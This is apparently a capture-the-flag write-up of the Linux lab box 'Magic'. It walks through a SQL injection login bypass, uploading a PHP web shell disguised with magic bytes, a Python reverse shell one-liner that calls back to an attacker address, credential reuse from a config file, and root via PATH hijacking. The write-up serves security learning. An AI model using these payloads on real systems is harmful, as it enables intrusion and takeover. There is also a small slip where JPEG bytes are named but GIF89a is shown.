

<link rel="stylesheet" href="{{ '/assets/css/obsidian-dividers.css' | relative_url }}">

## Summary

<div class="divider divider-info">
    <span class="divider-title">TL;DR</span>
    <span class="divider-content">Magic is a Medium Linux box that involves bypassing a login page via SQL injection to access an upload function. Upload restrictions are bypassed using magic bytes spoofing to gain a web shell. Lateral movement involves extracting database credentials to compromise a user, and privilege escalation is achieved by exploiting a custom SUID binary via PATH hijacking.</span>
</div>

**Key Vulnerabilities:**
- SQL Injection authentication bypass
- File Upload restriction bypass (Magic Bytes)
- Hardcoded database credentials
- SUID binary using relative paths (PATH Hijacking)

---

## Enumeration

### Nmap Scan

**Initial scan:**
```bash
nmap -vv -T5 -p- 10.129.x.x

nmap -vv -T5 -p22,80 -sC -sV 10.129.x.x
```

**Results:**

| Port | Service | TCP/UDP |
| ---- | ------- | ------- |
| 22   | SSH     | TCP     |
| 80   | HTTP    | TCP     |

**Key findings:**
- Standard web server setup
- No domain redirect immediately observed

---

### Web Enumeration

**Step 1:** Exploration

Navigating to the website reveals a gallery. `dirsearch` enumeration locates a `/login` page and a restricted `/upload` endpoint.

**Step 2:** Authentication Bypass via SQLi

Attempted default credentials (admin:admin) without success. Suspecting SQL injection on the login form, I used Burp Intruder to fuzz the password parameter with a SQLi wordlist.

**Payload found:** `' OR 1=1 -- -`

<div class="divider divider-warning">
    <span class="divider-title">SQL Injection Login Bypass</span>
    <span class="divider-content">By injecting a tautology (a statement that is always true, like 1=1), the database query checks authentication is forced to evaluate to true, logging the attacker in as the first user in the database (usually admin).</span>
</div>

Logging in grants access to the `/upload.php` page.

---

## Initial Foothold

### File Upload Exploitation

**Step 1:** Upload Restrictions

The upload form blocks standard PHP shells. The box name "Magic" hints at **Magic Bytes** verification.

**Step 2:** Bypass Strategy

To bypass the filter:
1.  Used a PHP shell obfuscated to look like an image.
2.  Added valid JPEG magic bytes (`\xFF\xD8\xFF\xE0`) to the start of the file.

```php
GIF89a;
<?php system($_GET['cmd']); ?>
```

**Step 3:** Execution

Uploaded the file successfully. Checking the page source reveals images are stored in `assets/uploads/`.

Acccessing `http://10.129.x.x/assets/uploads/shell.php?cmd=id` confirms code execution.

**Step 4:** Reverse Shell

Executed a base64 encoded reverse shell payload to gain a stable shell as `www-data`.

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

<div class="divider divider-root">
    <span class="divider-title">Shell Access</span>
    <span class="divider-content">Successfully obtained reverse shell as www-data</span>
</div>

---

## Lateral Movement

### Database Credentials

**Step 1:** Enumeration

Found database credentials in the web configuration files (`db.php5`).

```php
$user = "theseus";
$password = "Th3s3usW4sK1ng";
```

**Step 2:** Database Dump

Used `mysqldump` to extract the database contents:

```bash
mysqldump -u theseus -p'Th3s3usW4sK1ng' --all-databases
```

The dump revealed the password for the system user `theseus`.

**Step 3:** Switch User

```bash
su theseus
# Password: Th3s3usW4sK1ng
```

<div class="divider divider-root">
    <span class="divider-title">User Access</span>
    <span class="divider-content">Successfully authenticated as user theseus</span>
</div>

---

## Privilege Escalation

### SUID Enumeration

**Step 1:** Check Groups and SUID

Checking group memberships shows `theseus` is in the `users` group. Searching for SUID binaries owned by root reveals a non-standard binary:

```bash
find / -perm -u=s -type f 2>/dev/null
...
/bin/sysinfo
```

**Step 2:** Analyze Binary

Running `strings` on `/bin/sysinfo` reveals it calls system binaries using **relative paths** (e.g., `lshw`, `fdisk`, `cat`) instead of absolute paths (e.g., `/usr/bin/lshw`).

![[Pasted image 20250917182858.png]]

<div class="divider divider-warning">
    <span class="divider-title">PATH Hijacking</span>
    <span class="divider-content">When a program uses relative paths, the system looks for the executable in directories listed in the user's PATH environment variable. If we can modify the PATH or if the current directory is in the PATH, we can create a malicious script with the same name as the called binary to execute arbitrary code with the SUID binary's privileges.</span>
</div>

### PATH Hijacking

**Step 3:** Exploitation

1.  Create a malicious `lshw` script that spawns a shell.
2.  Make it executable.
3.  Add the current directory to the `PATH`.
4.  Run `sysinfo`.

![[Pasted image 20250917183109.png]]

```bash
cd /tmp
echo "/bin/sh" > lshw
chmod +x lshw
export PATH=/tmp:$PATH
/bin/sysinfo
```

<div class="divider divider-root">
    <span class="divider-title">Root Access</span>
    <span class="divider-content">Successfully obtained root shell via PATH hijacking</span>
</div>

---

## Post-Exploitation

**Flags:**
- User: `/home/theseus/user.txt`
- Root: `/root/root.txt`

**Attack Chain Summary:**
1. SQL Injection on login page allows bypass
2. Magic bytes spoofing bypasses file upload restrictions
3. Web shell leads to reverse shell as www-data
4. Database credentials found in config file lead to user `theseus` password
5. Custom SUID binary `sysinfo` found using relative paths
6. PATH hijacking exploited to execute malicious script as root

**Key Lessons:**
- SQL injection in authentication forms is a critical flaw
- File upload checks should verify content, not just headers or extensions
- SUID binaries should always use absolute paths for external calls
- Hardcoded credentials in config files are a common lateral movement vector

---

## References

- [Magic Bytes List](https://en.wikipedia.org/wiki/List_of_file_signatures)
- [SQL Injection Login Bypass](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass)
- [PATH Hijacking](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/)

---

## Timeline



---

**Pwned on:** 17/09/2025

**Difficulty Rating:** ⭐⭐ (Classic techniques)  
**Fun Factor:** ⭐⭐⭐ (Good flow, nice SUID exploit)
